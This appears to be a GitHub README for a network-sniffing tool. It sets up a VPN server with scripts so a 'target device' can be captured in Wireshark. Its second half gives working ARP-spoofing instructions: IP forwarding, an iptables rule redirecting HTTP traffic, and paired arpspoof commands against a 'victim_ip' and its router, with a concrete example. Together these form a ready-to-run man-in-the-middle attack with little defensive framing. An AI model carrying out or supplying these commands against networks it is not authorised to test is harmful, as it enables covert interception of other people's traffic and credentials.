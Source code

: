 # Install

Make sure you have docker and wireshark installed.

### Windows:
Install Linux or get a Mac and continue.

### Ubuntu:
```
apt-get install docker wireshark
```

### Mac:
```
brew install docker wireshark
```

# Usage

Initialize the server for the first time.
```
./init.sh server_ip
```

Start the server.
```
./start.sh
```

Create a client.
```
./create_client.sh client_name
```

Transfer the client's configuration file to the target device.

Connect to the VPN server from the target device (search for OpenVPN on the Appstore).

Open wireshark and start sniffing.
```
./wireshark.sh
```

# Sniffing without VPN
It's possible to sniff the data after poisoning the arp table of the target device, although a few extra steps are required to allow the traffic to pass through.

### Windows
Install Linux or get a Mac and continue.

### Linux
Install arpspoof
```
apt-get install arpspoof
```

Flip your machine into forwarding mode (as root):
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```

Setup iptables to intercept HTTP requests (as root):
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
```

### Mac
From http://iosmanbh.blogspot.com/2014/09/mac-os-x-arp-spoofing.html
Install macport

Install dsniff
```
sudo port selfupdate
sudo port install dsniff-devel
```

Find victim ip
```
arp -a
```

Open net forwarding,it will forward packets which recive to Internet Connection.
```
sudo sysctl -w net.inet.ip.forwarding=1
sudo sysctl -w net.inet.ip.fw.enable=1
```

Arpspoof Router
```
sudo arpspoof -i Yourineterface -t victim_ip router_ip
sudo arpspoof -i Yourineterface -t router_ip victim_ip
```

Example:
```
sudo arpspoof -i en0 -t 192.168.1.100 192.168.1.1
sudo arpspoof -i en0 -t 192.168.1.1 192.168.1.100
```
